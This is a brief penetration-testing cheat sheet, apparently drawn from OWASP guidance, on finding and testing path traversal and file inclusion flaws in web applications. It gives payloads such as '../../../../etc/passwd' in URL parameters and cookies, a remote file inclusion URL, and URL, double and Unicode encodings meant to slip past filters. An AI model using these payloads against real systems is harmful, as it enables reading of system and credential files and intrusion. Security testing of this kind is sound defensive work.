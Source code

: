# Path Traversal

### Step 1 Identify parameters

Identify:

* any request parameters that could be used for file-related operations

` http://example.com/getUserProfile.jsp?item=ikki.html`

* any unusual file extensions

`
http://example.com/main.cgi?home=index.htm
`

* any interesting variable names

`
http://example.com/index.php?file=content
`

* cookie used by web application for the dynamic generation of pages 

`
Cookie: ID=d9ccd3f4f9f18cc1:TM=2166255468:LM=1162655568:S=3cFpqbJgMSSPKVMV:TEMPLATE=flower
`
### Step 2 Insert malicious string

For example, for Linux/UNIX, we can insert `../../../../etc/passwd`

`http://example.com/getUserProfile.jsp?item=../../../../etc/passwd`

Cookie example:
`Cookie: USER=1826cc8f:PSTYLE=../../../../etc/passwd`

Includes files and scripts from external website (remote file inclusion):

`http://example.com/index.php?file=http://www.owasp.org/malicioustxt`

To show the source code of a CGI component 
`
http://example.com/main.cgi?home=main.cgi
`
### Encoding
URL encode (once)
Linux
>%2e%2e%2f = ../
%2e%2e/ = ../
..%2f = ../

Windows:
>%2e%2e%5c = ..\
%2e%2e\ = ..\
..%5c = ..\

URL encode (double)
Windows
>%252e%252e%255c = ..\
..%255c = ..\

Unicode/UTF-8 Encoding

>..%c0%af = ../
>..%c1%9c = ..\

### OS/application consideration

Different OS/APIs have different behavior in the parsing of file paths


Source: https://www.owasp.org/index.php/Testing_Directory_traversal/file_include_(OTG-AUTHZ-001
